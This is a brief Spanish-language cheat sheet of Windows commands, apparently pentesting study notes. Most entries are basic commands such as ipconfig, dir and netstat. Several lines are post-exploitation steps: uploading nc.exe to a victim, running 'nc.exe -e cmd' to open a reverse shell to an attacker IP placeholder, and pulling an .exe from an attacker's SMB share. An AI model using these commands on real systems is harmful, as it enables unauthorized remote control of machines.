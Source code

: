 # Comandos Windows ❮❯

Tags: #Windows #Comandos

**C:\Windows\Temp** Directorio en donde tenemos capacidad de escritura y lectura

❯ **ipconfig** Nos muestra las interfaces y las direcciones IP

❯ **cls** Nos ayuda a limpiar la pantalla
❯ **dir** Nos muestra el contenido del directorio
	❯ **dir /r /s ❮File.txt❯ Buscamos de forma recursiva el string .txt
❯ **type ❮File❯** Nos muestra el contenido del archivo
❯ **cd ❮Path❯ Nos cambia de directorio (**C:\\Users\\**)
❯ **ipconfig** Nos reportara las interfaces y sus IP's
❯ **upload ❮Path/nc.exe❯** Para subir el archivo Netcat desde la maquina victima

❯ **nc.exe -e cmd ❮IP Atacante❯ ❮Port❯** Para ejecutar el netcat y nos haga una ReverShell a nuestra IP y puerto especifico
❯ **netstat -nat** Miramos los puertos abiertos
❯ **services** Para ver los servicios que estan corriendo en Windows 
❯ **mkdir ❮Name❯** Nos creamos un directorio con un nombre especifico
❯ **copy \❮Nuestra IP❯\\❮Folder_name❯\\❮File.exe❯ ❮File.exe❯** Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante
